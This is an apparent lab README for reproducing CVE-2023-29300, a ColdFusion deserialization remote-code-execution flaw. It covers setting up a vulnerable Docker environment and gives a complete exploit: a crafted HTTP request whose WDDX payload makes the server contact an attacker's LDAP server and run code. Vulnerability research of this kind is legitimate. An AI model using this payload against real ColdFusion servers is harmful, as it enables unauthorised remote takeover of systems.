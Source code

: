 # Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)

[中文版本(Chinese version)](README.zh-cn.md)

Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.

Adobe ColdFusion versions 2018 Update 16 (and earlier), 2021 Update 6 (and earlier) and 2023.0.0.330468 (and earlier) are affected by a deserialization of untrusted data vulnerability. Attacker is able to call arbitrary setter function and execute arbitrary commands eventually.

References:

- <https://blog.projectdiscovery.io/adobe-coldfusion-rce/>
- <https://xz.aliyun.com/t/13413>

## Vulnerable environment

Start a Adobe ColdFusion 2018.0.15:

```
docker compose up -d
```

After a few minutes wait, visit `http://your-ip:8500/CFIDE/administrator/index.cfm` with password `vulhub`, you can install the Adobe ColdFusion successfully.

## Exploit

To exploit this issue, you have to find a valid gadget to execute arbitrary code in ColdFusion server. The most common gadget is `com.sun.rowset.JdbcRowSetImpl` that uses the JNDI injection to execute the command.

You can start a malicious LDAP server and generate a `CommonsBeanutils1` gadget payload with <https://github.com/java-Chains/web-chains>:

![](1.png)

Then, send the following request to ColdFusion server (replace with your LDAP server address):

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

As you can see, the `touch /tmp/success` is executed successfully:

![](2.png)
